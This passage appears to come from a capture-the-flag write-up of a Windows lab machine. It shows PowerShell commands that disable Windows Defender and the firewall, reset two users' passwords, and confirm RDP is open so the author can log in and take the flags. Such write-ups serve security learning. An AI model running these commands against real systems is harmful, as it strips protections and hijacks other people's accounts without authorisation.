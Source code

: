 I thought of googling for ways to recover `EFS encrypted` files but instead I just `YOLOed` it:


Attack plan
=============

- `Disable Windows Defender`
- `Disable Firewall`
- `Change Rupal and Jorge's passwords`
- `RDP in and steal their shit`

```bash
PS C:\> Set-MpPreference -DisableRealtimeMonitoring $true

PS C:\> NetSh Advfirewall set allprofiles state off
Ok.

PS C:\> net users rupal Yoloed1234!
net users rupal Yoloed1234!
The command completed successfully.

PS C:\> net users jorge Yoloed1234!
net users jorge Yoloed1234!
The command completed successfully.
```

Sweet, `RDP` is already running, no need to enable it:

```bash
PS C:\> netstat -an                
netstat -an                        
                                   
Active Connections                 
                                   
  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:21             0.0.0.0:0              LISTENING
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:3389           0.0.0.0:0              LISTENING
```

At last, we can RDP and get the flags!!
